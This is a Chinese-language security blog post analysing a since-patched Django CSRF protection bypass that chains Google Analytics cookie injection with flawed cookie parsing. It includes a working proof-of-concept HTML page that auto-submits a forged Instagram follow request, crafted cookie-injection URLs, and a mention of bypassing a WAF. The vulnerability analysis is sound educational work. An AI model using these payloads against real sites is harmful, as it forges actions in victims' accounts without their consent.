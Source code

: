 ```yaml
---
id: 753
layout: post
title: 'Django CSRF 防护绕过漏洞分析'
date: 2016-09-27 13:28:00
author: virusdefender
tags: 安全 Django
---
```


原始漏洞链接 https://hackerone.com/reports/26647

## 使用 Google Analytics 进行 Cookie 注入

 - Google Analytics 会设置这样的 Cookie 来追踪用户访问

```
__utmz=123456.123456789.11.2.utmcsr=[HOST]|utmccn=(referral)|utmcmd=referral|utmcct=[PATH]
```
比如

```
__utmz=123456.123456789.11.2.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/path/
```

 - 用户可以完全控制 referer 中的 path，然后在放入`__utmz`的时候没有过滤


## 不同的 web server 对 Cookie parse 结果的不同

 - 一个正常的Cookie是这样子的 `Cookie: param1=value1; param2=value2;`
 - 但是很多 web server 也可以接收使用逗号分隔的


```
Cookie: param1=value2, param2=value2
Cookie: param1=value2,param2=value2
``` 
 
Python 和 Django 使用了不正确的正则表达式来 parse Cookie，导致用户也可以使用`[]`来作为分隔符 `Cookie: param1=value1]param2=value2`
  
参考
  
 - https://docs.python.org/3/library/http.cookies.html
 - http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432
 - http://tools.ietf.org/html/rfc2109
 - http://tools.ietf.org/html/rfc2068

例子
 
```python
 >>> from http import cookies
 >>> C = cookies.SimpleCookie()
 >>> C.load('__utmz=blah]csrftoken=x')
 >>> C
 <SimpleCookie: csrftoken='x'>
```

## 不同的浏览器对 Cookie 处理结果的不同

除了 Safari 之外，其他的浏览器都可以在 Cookie value 中使用空格、逗号和`[]`字符。

而且 Chrome 只可以处理有限的 Cookie 属性，比如

```
Set-Cookie: test=test; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=blah.blah.blah.google.com;
```

最终只能给`.google.com`而不是`blah.blah.blah.google.com`设置上 Cookie

## 综合在一起利用

### 条件是

 - 网站使用 Google Analytics
 - 网站使用的 server 或后端有 Cookie 解析的问题，比如 Django
 - 网站使用了基于 Cookie 的 CSRF 防护方法

### 结果
 
 - 我们可以设置任意的 Cookie 或者覆盖已有的 Cookie
 - 这个网站就有 CSRF 防护绕过的问题
 
### POC

使用 Chrome 可以在 instagram.com 上复现这个问题

 - 打开 Chrome 隐身模式
 - 登录 instagram.com
 - 点击下面的链接，然后稍等
 - 然后你就会关注了 http://instagram.com/black2fan

`http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html`的源码是

```html
<form 
action="http://instagram.com/web/friendships/1312928755/follow/?ref=emptyfeed" 
id="csrf" 
method="POST">
      <input type="hidden" name="csrfmiddlewaretoken" value="x" />
      <input type="submit" value="Submit request" />
</form>
<script>
      function xxx() {
        document.getElementById('csrf').submit();
      }
</script>
<iframe 
onload="xxx()" 
src="http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/"/>
```

### 描述

 - 用户已经登录了 instagram.com
 - 让用户访问下面的链接，同时假设他没有访问过`blog.instagram.com`，也没有这个子域名的`__utmz`。
 
```
http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/
```

这时候，Cookie 就会使用新的 path 和 domain，`.instgram.com` 就会被设置一个新的 Cookie `_utmz=90378079.1401435337.1.1.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/r/,]csrftoken=x`

 - 这时候，服务器就会认为 Cookie 中的`__utmz`是错误的格式，CSRF token是`x`
 - 使用 CSRF token 提交上面的表单

## 修复

Python 的 patch 是 https://hg.python.org/cpython/rev/270f61ec1157，但是后来发现还是有问题的，比如

```python
C = cookies.SimpleCookie()
C.load('__utmz=blah csrftoken=x')
C.load('__utmz=blah\x09csrftoken=x')
C.load('__utmz=blah\x0bcsrftoken=x')
C.load('__utmz=blah\x0ccsrftoken=x') 
```

仍然会被解析为两个 Cookie，但是实际的浏览器处理并不一样

 - IE 浏览器会把`\x09 \x0b \x0c`替换为下划线
 - Chrome 会忽略这种 Cookie
 - Google Analytics 会把空格替换为 `%20`，当然这不重要，因为其他的 JS 也可能有问题

但是 Firefox 是支持所有的字符的，所以可以这样利用
 - 移除 instgram.com 的所有 Cookie
 - 使用 Firefox 打开 `http://instagram.com/?utm_source=1&utm_medium=2&utm_campaign=3&utm_term=4&utm_content=5%09csrftoken=x#`
 - 刷新页面，你会发现 `csrftoken=x`

最近 Django 修复了这个问题，https://www.djangoproject.com/weblog/2016/sep/26/security-releases/，使用了简单的 parse Cookie 的方法，https://github.com/django/django/commit/d1bc980db1c0fffd6d60677e62f70beadb9fe64a，虽然不太标准，但是已经足够了。

## 思考
 - Twitter的这个公开的更早 https://hackerone.com/reports/14883
 - 这个可以称为是 HTTP 参数污染了，这个手段在绕过部分WAF防护的时候还是有用的。比如`ngx_lua_waf` 的绕过，因为乌云无法访问，我截图放出来 https://dn-virusdefender-blog.qbox.me/ngx_lua_waf_hpp.png
 - https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004) https://www.exploit-db.com/docs/17534.pdf 这里有一些总结
 - 覆盖Cookie进行绕过CSRF防护 https://www.leavesongs.com/HTML/zhihu-xss-worm.html
 - 很多 RFC 规范太蛋疼
 
